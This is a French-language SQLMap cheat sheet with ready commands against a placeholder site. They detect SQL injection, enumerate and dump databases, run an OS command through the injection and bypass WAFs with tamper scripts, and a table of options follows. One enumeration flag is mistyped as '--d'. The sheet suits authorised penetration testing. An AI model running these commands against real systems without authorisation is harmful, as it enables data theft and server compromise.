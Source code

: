 # SQLMap Cheat Sheet 

##  Commandes les plus utiles

### Test simple d'injection sur une URL
```
sqlmap -u "http://site.com/page.php?id=1"
```
`
###  Détection + dump automatique de la BDD
```
sqlmap -u "http://site.com/page.php?id=1" --batch --dump
```
`
###  Spécifier un paramètre vulnérable
```
sqlmap -u "http://site.com/page.php" --data="id=1" --batch
```
`
###  Enumérer toutes les BDD
```
sqlmap -u "http://site.com/page.php?id=1" --d
```

### Choisir une BDD spécifique et lister ses tables
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd --tables
```
`
###  Lister les colonnes d'une table spécifique
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd -T nom_table --columns
```

###  Dumper les données d'une table spécifique
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd -T nom_table --dump
```
`
###  Scan avec cookie de session
```
sqlmap -u "http://site.com/page.php?id=1" --cookie="PHPSESSID=abc123"
```
`
###  Utilisation d’un fichier POST complet
```
sqlmap -r requete.txt
```

### Détection du SGBD
```
sqlmap -u "http://site.com/page.php?id=1" --dbms=mysql
```
`
### Tentative d'exécution de commande système (si vulnérable)
```
sqlmap -u "http://site.com/page.php?id=1" --os-cmd="whoami"`
```

###  Bypass WAF avec random case + encodage
```
sqlmap -u "http://site.com/page.php?id=1" --tamper=between,randomcase,charencode
```

---

## 🧩 Options utiles (tableau)

|Option|Description courte|
|---|---|
|`-u`|URL cible|
|`--data`|Paramètres POST à injecter|
|`-r`|Requête brute (fichier texte avec headers)|
|`--dbs`|Enumérer les bases de données|
|`-D`|Sélectionner une base de données|
|`--tables`|Lister les tables|
|`-T`|Sélectionner une table|
|`--columns`|Lister les colonnes|
|`--dump`|Extraire les données|
|`--batch`|Mode non interactif (valide tout par défaut)|
|`--level=1-5`|Profondeur du scan (1 par défaut, 5 = complet)|
|`--risk=1-3`|Risque des requêtes (1 = safe, 3 = agressif)|
|`--os-cmd`|Exécuter commande système (si injectable)|
|`--cookie`|Inclure cookie pour session|
|`--tamper=<scripts>`|Bypass WAF/IDS (ex: `between`, `charencode`, etc.)|
|`--technique=BEUSTQ`|Forcer type d’injection (Boolean, Error, Union...)|
|`--dbms=<type>`|Forcer un type de SGBD (MySQL, MSSQL, etc.)|
